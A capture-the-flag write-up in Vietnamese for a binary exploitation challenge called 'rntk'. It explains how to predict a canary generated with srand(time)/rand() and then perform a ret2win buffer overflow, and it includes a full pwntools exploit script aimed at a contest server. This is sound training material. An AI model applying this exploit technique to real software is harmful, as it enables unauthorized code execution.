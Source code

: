 # rntk
## Phân tích
- Chương trình tạo canary bằng rand() và yêu cầu chúng ta đoán só rand() tiếp theo
- Chương trình cho ta 3 option
    - 1 là tạo số random từ hàm rand() (có thể để ta kiểm tra)
    - 2 là đoán só random tiếp theo (nếu đúng nhảy vào hàm `random_guess()` và ta có thể khai thác lỗi bof)
    - 3 là exit
## Khai thác
- Đầu tiên ta sẽ khai thác vào hàm `rand() và srand()` ở đây do script ta chạy chậm hơn server nên cần phải trừ bớt đi thay vì cộng vào
- Sau đó ta sẽ đoán số tiếp theo được sinh ra từ hàm `rand()`
- Cuối cùng là ret2win
## Full script
```python
#!/usr/bin/python3

from pwn import *
from ctypes import CDLL
exe = ELF('chal_patched', checksec=False)
libc = CDLL("./libc6_2.35-0ubuntu3.1_amd64.so")

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b* 0x0000000000401384

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('amt.rs', 31175)
else:
        p = process(exe.path)

GDB()
libc.srand(libc.time(0)-2)
canary = libc.rand()
info("Canary: " + hex(canary))
next_num = libc.rand()
info("next num: " + str(next_num))
sla(b"Exit", b"1")
p.recvline()
next_number = int(p.recvline(keepends=False))
info("next number: " + str(next_number))

sla(b"Exit", b"2")
payload = b"12345"
payload = payload.ljust(40)
payload += p32(libc.rand()) + p32(canary)
payload += p64(0)
payload += p64(exe.sym['win']+5)
sla(b"guess", payload)

p.interactive()
```